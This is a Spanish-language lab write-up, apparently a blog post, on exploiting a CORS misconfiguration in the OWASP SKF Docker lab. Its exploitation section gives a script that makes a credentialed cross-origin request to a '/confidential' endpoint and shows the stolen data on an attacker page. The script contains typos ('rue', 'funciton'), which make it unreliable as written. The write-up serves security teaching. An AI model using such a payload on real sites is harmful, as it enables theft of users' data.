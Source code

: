 ```yaml
---
title: "Intercambio de recursos de origen cruzado (CORS)"
author: Tuch0
date: 2023-09-17
categories: 
  - Vectores-de-Ataque
tags: 
  - CORS
image:
  path: ../../assets/Miniaturas/VectoresDeAtaque/cors.jpeg
  width: 800
  height: 500
---
```


#### Desplegamos el laboratorio

```bash
# Creamos la imagen
docker pull blabla1337/owasp-skf-lab:cors

# Desplegamos el contenedor
docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
```

### ¿Que és?

> **CORS (Intercambio de recursos de origen cruzado)** El intercambio de recursos de origen cruzado o CORS es un mecanismo que permite que se puedan solicitar recursos restringidos en una página web desde un dominio diferente del dominio que sirvió el primer recurso.
{: .prompt-info }

> Supongamos que tenemos una aplicación web en el dominio “**example.com**” que utiliza una API web en el dominio “**api.example.com**” para recuperar datos. Si la aplicación web está correctamente configurada para CORS, solo permitirá solicitudes de origen cruzado desde el dominio “**example.com**” a la API en el dominio “**api.example.com**“. Si se realiza una solicitud desde un dominio diferente, como “**attacker.com**“, la solicitud será bloqueada por el navegador web.
{: .prompt-info }

### Escenario

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/1.jpg)

> Donde pone "Access-Control-Allow-Origin: *" , quiere decir que cualquiera puede cargar recursos de la web, **esto permite crear nosotros nuestro propio servidor y volvarnos los archivos de la web víctima**
{: .prompt-info }

### Explotación

```php
<script>
	var req = new XMLHttpRequest()
	req.onload = reqListener;
	req.open('GET', 'http://localhost:5000/confidential', true);
	req.withCredentials = rue;
	req.send();

	funciton reqListener() {
		document.getElementById("stoleInfo").innerHTML = req.responseText;
	}
</script>

<br>
<center><h1>Has sido hackeado , esta es la informaci&oacute;n que te he robado:</h1></center>
<p id="stoleInfo"></p>
```

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/2.jpg)

> Como vemos está mal configurado ya que nos permite que el origen sea de donde queramos, a si que vamos a montarnos un servidor malicioso
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/3.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/4.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/5.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/6.jpg)

> Como vemos por detrás estaria pasando todo esto , esto , por lo tanto como nos permite tener accesso desde mi localhost, nos podemos descargar el recurso , **porque estoy "Autorizado"**
{: .prompt-info }

### Como sanitizar el código

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/7.jpg)

![](../../assets/VectoresDeAtaque/Intercambio-de-recursos-de-origen-cruzado-(CORS)/8.jpg)
